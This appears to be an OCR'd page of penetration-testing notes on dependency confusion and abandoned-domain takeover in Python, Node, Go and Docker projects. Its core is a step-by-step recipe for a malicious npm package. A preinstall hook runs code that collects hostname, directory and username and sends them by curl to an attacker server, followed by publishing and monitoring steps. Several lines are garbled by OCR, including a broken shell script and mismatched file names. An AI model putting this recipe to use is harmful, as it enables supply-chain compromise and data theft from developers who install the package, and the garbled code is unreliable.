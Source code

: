 ```yaml
---
layout: blank
pagetitle: Dependency Confusion
---
```


## Domain Name Takeovers
- If source code refers to or uses domains that are no longer active, we can register them and supply malicious code
- A couple examples:
  - Python: `setup(name='my-internal-lib', url='https://internal.examplecorp.com/my-internal-lib', install_requires=['my-internal-lib'])`
  - Node: `import('https://cdn.customcorp-internal.com/pkg.js');`
  - Go: `import "internal.companytools.com/somepkg"`
  - Docker: `FROM registry.dev.oldstartup.com/baseimage:latest`

## Node.js

**Info**
- In Node, npm packages are stated in the package.json file
- Will look something like this:

```json
"devDependencies" : {
    "my_test_framework": "^3.1.0",
    "another_dev_dependency": "1.0.0 - 1.2.0"
}
```
- The `^` symbol indicates versions equal to or higher than the version listed

**Package Scopes**
- Packages can be unscoped (public packages on npm)
    - Specified by listing the package name alone
- Can also be scoped
    - Belongs to a user/organization
    - Must be preceded by the organizations's name
        - `@org-name/package` or `@username/package`

**Exploitation**
- Find packages that are used without a reserved namespace (unscoped)
  - This could look like `org-name/package` (without the `@`)
- Node will then use the public package over the private one, allowing code execution
- [Synyc](https://github.com/snyk-labs/snync) is a good tool to scan for and recognize these packages:

```sh
# !/bin/bash
# Set the base directory to the current working directory
BASE_DIR =$( pwd )
# Loop through each directory in the base directory
for dir in " $BASE_DIR " /*/; do
    # Check if package . json exists in the directory
    if [ -f "${ dir } package . json " ]; then
        echo " Scanning repository : ${ dir }"
        # Run the npx snyk command in the directory
        npx snync -- directory " $dir "
    else
        echo " No package . json found in : ${ dir }. Skipping ... "
    fi
done
```
- Then you just have to host the package yourself

**Creating a Malicious package**
- Create `index.js`:

```js
const { exec } = require("child_process");
exec("a=$(hostname;pwd;whoami;) && b=$(echo $a | base64) && curl -X POST {attacker-server} -d $b" , (error, data, getter) => {
    if (error){
        console.log("error", error.message);
        return;
    }
    if (getter){
        console.log(data);
        return;
    }
    console.log(data);
});
```
- Create `package.json`:

```json
{
    "name":"{vulnerable_package_name}",
    "version":"{relevant_version_or_higher_if_^}",
    "description":"",
    "main":"main.js",
    "scripts":{
        "preinstall":"node inddex.js > /dev/null 2>&1",
        "test":"echo \"Error: no test specified\""
    },
    "author":"asdasfasd.asfasdasfasd",
    "license":"MIT"
}
```

- Then just run `npm public --access=public` and monitor attacker server